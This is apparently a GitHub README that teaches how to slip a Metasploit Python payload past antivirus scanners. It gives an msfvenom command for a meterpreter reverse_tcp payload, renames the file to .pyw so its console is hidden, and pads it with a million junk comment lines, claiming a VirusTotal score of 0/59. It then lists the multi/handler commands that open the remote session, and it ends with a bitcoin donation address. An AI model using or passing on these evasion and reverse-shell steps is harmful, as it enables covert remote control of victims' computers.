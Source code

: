 # Metasploit-PYEN
<strong><i>A new method of testing the metasploit payload cryptography and its use for cyber experts.</i></strong>
__________________________________________________________________________________________
## [+] Encryption test result :
### [>] From :
![Pic-1](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-1.png)
- Hash : ```0c0ba1c307f2fc0d8de806d406e0dba6d1ee47b9391ad282c4a651a120e3f918```
- -------------------------------------------------------------------------------------
### [>] To :
![Pic-2](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-2.png)
- Hash : ```f5698ec0516a03e9254d802b4ec232bc88ac0381965e64d2037fe1991db5aad3```
- -------------------------------------------------------------------------------------
## The changes :
- It was previously discovered that it contained JavaScript code, and now it has been changed to a text file.
- In VirusTotal statistics, the payload file got (7/60) and after coding, he obtained (0/59).
- The change is to add a million lines of text from this and in the middle of these lines the Python code for the metasploit connection information.
- The Text : ``` #;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]] ```
- like this picture :

![Pic-3](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-3.png)
- -------------------------------------------------------------------------------------
## [+] How to create and connect to the payload :
- Use <strong><i>Msfvenom</strong></i> to create a Python payload.
- In <strong><i>root</strong></i> user write this code : ```msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> > Payload.py```.
- Change Output file from ```Payload.py``` to ```Payload.pyw``` --> To Hide the console.
- Add a million lines in the file from this code ```#;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]]``` Then put the python payload code in the middle of the million lines in the payload.
- Save the file, now test it in VirusTotal and test it on your device to verify the file.
### [+] Connection test :
- Run <strong><i>Msfconsole</strong></i> tool.
- Put these commands in the terminal of the metsploit tool, and as you know, it will receive your IP address and port.
- Commands :
```
use exploit/multi/handler

set payload python/meterpreter/reverse_tcp

set LHOST <Your IP address>

set LPORT <Your Port>
```
### To start Exploit type :

```exploit```

- Then the connection session opens without problems.

# [+] Supported ME :

BTC : ```bc1qt5wkdh4w6xustsnfaanll4f464t75vncml29cx```












